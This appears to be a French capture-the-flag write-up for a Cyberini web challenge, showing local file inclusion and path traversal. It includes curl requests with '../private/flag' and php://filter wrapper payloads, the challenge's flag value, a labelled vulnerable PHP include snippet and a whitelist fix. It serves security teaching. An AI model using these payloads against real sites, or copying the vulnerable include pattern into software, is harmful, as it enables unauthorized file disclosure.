


## 📌 Aperçu du Challenge
- **Plateforme :** Cyberini CTF
- **Catégorie :** Web
- **Vulnérabilité :** Local File Inclusion (LFI) & Path Traversal 1- Local File Inclusion( LFI )
- **Objectif :** Trouver et lire le fichier flag caché sur le serveur.
- **Flag :** `l0c4l_f1l3_1nclud3d`

---

## 1. Reconnaissance et premier indice

En naviguant sur le site "Cyberini Corp", on remarque immédiatement que la navigation se fait via un paramètre GET `?page=` dans l'URL :
`https://cyberini.com/ctfs/assets/cyberinicorp/?page=accueil`

Aucune extension (comme `.php` ou `.html`) n'est visible dans l'URL, ce qui indique que le backend ajoute probablement l'extension de lui-même avant d'inclure le fichier.

En inspectant le code source de la page d'accueil, je tombe sur un commentaire HTML laissé par le développeur :
```html
<!-- on inclut ici la page demandée d'après les config 🤐 -->
````

Le mot "config" avec l'émoji indique qu'une page `config` existe.

## 2. Le cheminement de l'attaque

### Étape 1 : Analyser la page config

J'appelle la page de configuration avec `curl` :

```bash
curl --path-as-is [https://cyberini.com/ctfs/assets/cyberinicorp/?page=config](https://cyberini.com/ctfs/assets/cyberinicorp/?page=config)
```

Le contenu HTML retourné cache un nouveau commentaire très bavard :

```html
<!-- Bien sûr, tu peux placer ce code dans private/flag.php pour que les utilisateurs puissent le découvrir. -->
```



La cible est maintenant clairement identifiée : le fichier **`private/flag.php`**.

### Étape 2 : Les premières tentatives (et pourquoi elles ont échoué)

J'essaie d'inclure directement le chemin découvert :

```bash
curl --path-as-is [https://cyberini.com/ctfs/assets/cyberinicorp/?page=private/flag](https://cyberini.com/ctfs/assets/cyberinicorp/?page=private/flag)
```

**Résultat :** `<p>Page introuvable : private/flag</p>`

J'essaie ensuite d'utiliser un **Wrapper PHP** pour lire le fichier en Base64, afin de contourner une éventuelle exécution du code PHP ou un problème d'extension :

```bash
curl "[https://cyberini.com/ctfs/assets/cyberinicorp/?page=php://filter/convert.base64-encode/resource=private/flag](https://cyberini.com/ctfs/assets/cyberinicorp/?page=php://filter/convert.base64-encode/resource=private/flag)"
```

**Résultat :** `<p>Page introuvable : php://filter/...</p>`

**Analyse de l'échec :** Le message "Page introuvable" et l'échec du wrapper PHP indiquent que le code source utilise très probablement la fonction `file_exists()` avant d'inclure la page. De plus, si l'URL `?page=accueil` fonctionne mais que `?page=private/flag` échoue, c'est que les pages légitimes sont stockées dans un sous-dossier (par exemple un dossier `pages/`). Le script cherche donc `pages/private/flag.php`, ce qui n'existe pas.

### Étape 3 : L'exploitation réussie (Path Traversal)

Pour atteindre le dossier `private` qui se trouve sûrement à la racine de l'application, je dois d'abord "sortir" du dossier courant d'inclusion. J'utilise donc la technique du Path Traversal avec `../` :

```bash
curl --path-as-is "[https://cyberini.com/ctfs/assets/cyberinicorp/?page=../private/flag](https://cyberini.com/ctfs/assets/cyberinicorp/?page=../private/flag)"
```

_(Note : L'option `--path-as-is` de curl est indispensable ici pour empêcher le terminal d'interpréter le `../` localement avant d'envoyer la requête)._

**Résultat :** Le serveur remonte d'un dossier, entre dans `private`, ajoute `.php`, trouve le fichier, et l'inclut ! Le flag apparaît dans la réponse HTML :

```
<h2>🔓 Fichier interne</h2><code>flag=l0c4l_f1l3_1nclud3d</code>
```


## 3. Comment sécuriser cette faille ? (Remédiation)

### L'erreur du développeur (Code vulnérable probable)

Le développeur (le fameux "stagiaire" de l'énoncé) a fait confiance à l'entrée utilisateur (`$_GET['page']`) et l'a directement concaténée dans un chemin de fichier :

```php
// ❌ MAUVAIS CODE : Vulnérable à la LFI et au Path Traversal
$page =$_GET['page'];
$fichier = "pages/" . $page . ".php";

if (file_exists($fichier)) {
    include($fichier);
} else {
    echo "<p>Page introuvable : " . htmlspecialchars($page) . "</p>";
}
```

### La solution : La Liste Blanche (Whitelist)

Pour corriger définitivement cette vulnérabilité, il ne faut **jamais** inclure dynamiquement un fichier basé sur ce que tape l'utilisateur. Il faut utiliser un tableau strict (une liste blanche) des pages autorisées.

Si l'utilisateur demande une page qui n'est pas dans le tableau, on affiche une erreur ou on le redirige vers l'accueil.

```php
// ✅ BON CODE : Sécurisé via Whitelisting
$pages_autorisees = [
    'accueil' => 'pages/accueil.php',
    'services' => 'pages/services.php',
    'equipe' => 'pages/equipe.php',
    'contact' => 'pages/contact.php'
];

// On récupère la page demandée, par défaut on met 'accueil'
$page_demandee =$_GET['page'] ?? 'accueil';

// On vérifie si la page existe dans notre liste stricte
if (array_key_exists($page_demandee,$pages_autorisees)) {
    include($pages_autorisees[$page_demandee]);
} else {
    // Si on essaie de hacker (ex: ../private/flag), ça tombe ici
    echo "<p>Erreur 404 : Page non autorisée ou introuvable.</p>";
}
```

Avec cette méthode, même si l'attaquant tape `?page=../private/flag`, cette chaîne de caractères ne correspond à aucune clé du tableau `$pages_autorisees`. L'inclusion malveillante est donc bloquée.
